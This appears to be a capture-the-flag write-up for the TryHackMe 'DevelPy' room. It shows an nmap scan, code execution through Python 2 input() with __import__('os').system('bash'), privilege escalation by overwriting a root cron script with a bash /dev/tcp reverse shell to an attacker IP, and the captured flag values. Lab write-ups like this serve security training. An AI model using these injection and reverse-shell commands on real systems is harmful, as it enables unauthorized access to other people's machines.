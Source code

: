 > DevelPy | boot2root

**export IP=10.10.35.38**

# Nmap

sudo nmap -A -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
22/tcp    open  ssh               syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
10000/tcp open  snet-sensor-mgmt? syn-ack ttl 63
```

IN Port 10000, when we use `nc $IP 10000` 

```
       Private 0days

 Please enther number of exploits to send??: 10

Exploit started, attacking target (tryhackme.com)...
Exploiting tryhackme internal network: beacons_seq=1 ttl=1337 time=0.035 ms
Exploiting tryhackme internal network: beacons_seq=2 ttl=1337 time=0.064 ms
...
```

But when we give a string we have a error.

```
Please enther number of exploits to send??: a
Traceback (most recent call last):
  File "./exploit.py", line 6, in <module>
    num_exploits = int(input(' Please enther number of exploits to send??: '))
  File "<string>", line 1, in <module>
NameError: name 'a' is not defined
```

A python2 vulnerability for Code Execution. And let's try a basic exploit ` __import__('os').system('bash')` and we are in!!

# user.txt

```
cf85ff769cfaaa721758949bf870b019
```

# Priv Esc

cat /etc/crontab

```
*  *	* * *	king	cd /home/king/ && bash run.sh
*  *	* * *	root	cd /home/king/ && bash root.sh
*  *	* * *	root	cd /root/company && bash run.sh
```

Let's remove root.sh and put a reverse shell in there.

`echo "bash -i >& /dev/tcp/10.8.107.21/1234 0>&1" > root.sh`

# root.txt

```
9c37646777a53910a347f387dce025ec
```